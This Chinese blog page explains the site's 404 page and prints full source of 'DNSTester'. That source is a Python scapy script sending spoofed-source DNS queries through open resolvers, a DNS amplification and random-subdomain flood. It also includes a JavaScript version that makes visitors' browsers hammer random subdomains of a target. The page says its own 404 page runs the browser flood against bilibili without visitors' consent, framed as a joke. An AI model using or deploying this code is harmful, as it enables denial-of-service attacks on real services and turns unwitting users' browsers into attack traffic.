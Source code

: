 ```yaml
---
layout: page
permalink: "404page.html"
title:  "关于 404 页面"
---
```


大家在访问本站没有的页面时是不是会跳转到 404 页面呢？细心的人肯定会发现网页下方有一段话

> 事实上你访问一次404页面就相当于攻击了b站 200 次哦~

面白いね？

实际上这是使用了 *cnBeining* 的 **DNSTester**。源码如下：

### Python版

{% highlight python %}
#!/usr/bin/env python
#coding:utf-8
# Author:  Beining --<>
# Purpose: A most easy but powerful DNS tester
# Created: 01/15/2015

import os
import sys
import socket
import random
from multiprocessing.dummy import Pool as ThreadPool
from scapy import *
from scapy.all import *
import csv

global DNS_IP_LIST
DNS_IP_LIST = []
global FAKE_IP
FAKE_IP = ''
global SUCCESS
SUCCESS = 0

#----------------------------------------------------------------------
def dns_amp(qname_address):
    """"""
    global SUCCESS
    dns_ip = random.choice(DNS_IP_LIST)
    a = IP(dst=dns_ip,src=FAKE_IP) 
    b = UDP(dport=53)
    c = DNS(id=1,qr=0,opcode=0,tc=0,rd=1,qdcount=1,ancount=0,nscount=0,arcount=0)
    c.qd=DNSQR(qname=qname_address,qtype=1,qclass=1)
    p = a/b/c
    try:
        send(p)
        SUCCESS += 1
    except KeyboardInterrupt:
        print('FATAL: Quit!')
        print('Success: ' + str(SUCCESS))
        exit()
    except Exception as e:
        print('WARNING: DNSTest failed: %s' % e)
        traceback.print_exc()

#----------------------------------------------------------------------
def main(address, time, length, thread_num, fake_ip):
    """"""
    domain_list = [''.join(map(lambda xx:(hex(ord(xx))[2:]),os.urandom(int(length)))) + '.' + str(address) for i in range(int(time))]
    pool = ThreadPool(int(thread_num))
    results = pool.map(dns_amp, domain_list)
    #close the pool and wait for the work to finish 
    pool.close() 
    pool.join()

#----------------------------------------------------------------------
def read_dns_ip(filename = './nameservers.csv'):
    """"""
    dns_ip_list = []
    with open(filename, 'rb') as f:
        reader = csv.reader(f)
        for row in reader:
            if reader.line_num == 1:  
                    continue
            dns_ip_list.append(row[0])
    return dns_ip_list

#----------------------------------------------------------------------
if __name__=='__main__':
    address = str(sys.argv[1])
    time = int(sys.argv[2])
    thread_num = int(sys.argv[3])
    try:
        FAKE_IP = str(sys.argv[4])
    except:
        FAKE_IP = socket.getaddrinfo("www." + address, 80, 0, 0, socket.SOL_TCP)[0][4][0]
    try:
        dns_filename = str(sys.argv[5])
    except:
        dns_filename = './nameservers.csv'
    try:
        length = int(sys.argv[6])
    except:
        length = random.randint(6, 32)
    print('Reading DNS IP list...')
    DNS_IP_LIST = read_dns_ip(dns_filename)
    print('Start!')
    main(address, time, length, thread_num, FAKE_IP)
    print('Done! Success: ' + str(SUCCESS))
{% endhighlight %}

[Github](https://github.com/cnbeining/DNSTester)

### Javascript版：

{% highlight javascript %}
/*!
 * DNSTester.js 0.0.35
 * https://github.com/cnbeining/DNSTester.js
 * http://www.cnbeining.com/
 *
 * Includes jQuery
 * http://jquery.com/
 * 
 * Copyright 2015 Beining
 * Released under the GNU GENERAL PUBLIC LICENSE Version 2
 * https://github.com/cnbeining/DNSTester.js/blob/master/LICENSE
 *
 */
var COUNT = 0;
var STARTTIME = (new Date).getTime();
var DOMAIN = ".baidu.com/"; //Change me in caller
var MAX_COUNT = 50000;  //Change me in caller
var TPS = 100;  //Change me in caller
var TIMERID = 0; //To stop the test
function makeid_old(length)
{
    var text = "";
    var possible = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
    for( var i=0; i < length; i++ )
        text += possible.charAt(Math.floor(Math.random() * possible.length));
    return text;
}
function makeid_new(len) {
    //Only avalable in new browsers
    var arr = new Uint8Array((len || 40) / 2);
    window.crypto.getRandomValues(arr);
    text = [].map.call(arr, function(n) { return n.toString(16); }).join("");
    return text;
}
makeid = makeid_new; //asserting
try {
    test_msg = makeid(5)
}
catch(err) {
    console.log("New function not supported! " + err);
    makeid = makeid_old;
}
function r_send2() {
    if ((MAX_COUNT < 1 || COUNT >= MAX_COUNT) != true) {
          get("https://" + makeid(Math.floor((Math.random() * 64) + 1)) + DOMAIN) // NEVER FORGET, in case you use HTTPS
      };
    if (COUNT % 1000 == 0) { //report every 1000 times
          console.log('Done: ' + COUNT.toString())
      };
}
function get(a) {
    var b;
    $.ajax({
        url: a,
        dataType: "script",
        timeout: 1E-2, //So fail immediately, but good enough to stress DNS
        cache: !0,
        // beforeSend: function() {
        // requestTime = (new Date).getTime()
        // },
        complete: function() {
            COUNT += 1;
        }
        })
}
function r_send(a) {
    TIMERID = setInterval("r_send2()", a)
}
{% endhighlight %}

大家可以在[这里](/js/dnstester.js)或者 [Github](https://github.com/cnbeining/DNSTester.js) 上找到源码和使用方式。

***

404页面中设置的只有2秒，每秒100次而已，对b站基本上一点影响也没有，除非有很多人大量访问404页面，同样也是不可能的，所以只是增加404娱乐性，大可不必担心。

所以就来玩玩吧~ [404 Not Found~](http://fuckbilibili.com/404.html)

点开导航栏中的 *cnBeining* 页面，你会发现更多有趣的东西~